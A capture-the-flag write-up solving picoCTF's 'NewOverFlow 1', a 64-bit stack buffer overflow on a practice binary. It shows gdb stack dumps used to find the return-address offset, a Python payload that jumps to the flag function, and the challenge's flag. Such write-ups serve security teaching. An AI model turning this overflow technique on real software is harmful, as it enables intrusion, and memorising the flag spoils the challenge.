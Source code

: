 # NewOverFlow 1
Lets try moving to 64-bit, but don't worry we'll start easy. Overflow the buffer and change the return address to the flag function in this [program](vuln). You can find it in /problems/newoverflow-1_2_706ae8f01197e5dbad939821e43cf123 on the shell server. [Source](vuln.c).

## Hint
Now that we're in 64-bit, what used to be 4 bytes, now may be 8 bytes

## Solution
Same method from OverFlow 1. We input 64 bytes of a's, check the buffer and see how far we were from the return address.
```asm
(gdb) disas main
...
   0x0000000000400845 <+93>:    callq  0x4007cc <vuln>
   0x000000000040084a <+98>:    mov    $0x0,%eax
```
Address is 0x000000000040084a
```asm
(gdb) b *vuln+25
Breakpoint 1 at 0x4007e5
(gdb) r
Starting program: /problems/newoverflow-1_2_706ae8f01197e5dbad939821e43cf123/vuln
Welcome to 64-bit. Give me a string that gets you the flag:
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Breakpoint 1, 0x00000000004007e5 in vuln ()
(gdb) x/50x $rsp
0x7ffe8a14ca30: 0x61616161      0x61616161      0x61616161      0x61616161
0x7ffe8a14ca40: 0x61616161      0x61616161      0x61616161      0x61616161
0x7ffe8a14ca50: 0x61616161      0x61616161      0x61616161      0x61616161
0x7ffe8a14ca60: 0x61616161      0x61616161      0x61616161      0x61616161
0x7ffe8a14ca70: 0x8a14ca00      0x00007ffe      0x0040084a      0x00000000
```
The return address is saved at 0x7ffe8a14ca78, so we need to fill in 8 more bytes and then `flag`'s address. However, when we try to do this, we run into a segmentation fault with the payload:
```python -c "import struct; print 'a'*(64+8)+struct.pack('I', 0x00400767)" | ./vuln```
It turns out that the solution was to jump to the address 0x00400768 and not 0x00400767, skipping the `push %rbp` instruction. Unusually, the first time I tried it, it seemed to have worked with the address 0x00400767, now it seems that it doesn't work anymore. Thus, our final payload should be:
```python -c "import struct; print 'a'*(64+8)+struct.pack('I', 0x00400768)" | ./vuln```

## Details
Completed: *During competition*  
Done by: Cyril  
Flag: `picoCTF{th4t_w4snt_t00_d1ff3r3nt_r1ghT?_7a154fef}`
